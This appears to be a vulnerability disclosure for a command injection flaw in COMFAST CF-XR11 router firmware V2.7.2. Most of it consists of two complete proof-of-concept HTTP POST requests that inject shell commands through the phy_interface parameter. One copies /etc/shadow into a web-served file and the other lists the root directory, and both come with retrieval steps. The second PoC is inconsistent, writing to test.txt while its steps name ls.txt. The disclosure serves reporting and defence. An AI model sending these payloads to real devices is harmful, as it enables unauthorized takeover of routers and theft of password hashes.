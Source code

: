 # COMFAST CF-XR11 V2.7.2 Command Injection in `multi_pppoe`

## Overview
A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_423930`). Attackers can inject arbitrary commands via the `phy_interface` parameter in a POST request to `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`, enabling unauthorized access or full device compromise.

## Details
- **Product**: COMFAST CF-XR11
- **Firmware**: V2.7.2
- **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.

### Description
The `phy_interface` parameter is unsanitized and used in a `system` call (`sprintf(v78, "ifdown %s; ifup %s", v76, v76)`). When `action` is set to `"one_click_redial"`, malicious input in `phy_interface` (e.g., `br-wan && cat /etc/shadow > /www-comfast/test.txt`) executes arbitrary commands.

## Proof of Concept (PoC)

### PoC 1: Dump `/etc/shadow`
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && cat /etc/shadow > /www-comfast/test.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request using `curl` or Burp Suite.
  2. Access `http://cflogin.cn/test.txt` to view `/etc/shadow`.
- **Result**: The `/etc/shadow` file is written to `/www-comfast/test.txt`.

![PoC 1 Result: /etc/shadow Output](./images/poc1_shadow_output.png)

### PoC 2: List Root Directory (`ls /`)
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 104
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && ls / > /www-comfast/test.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request.
  2. Access `http://cflogin.cn/ls.txt` to view the root directory listing.
- **Result**: The root directory listing is written to `/www-comfast/ls.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/5.png)

## Affected Versions
- COMFAST CF-XR11 V2.7.2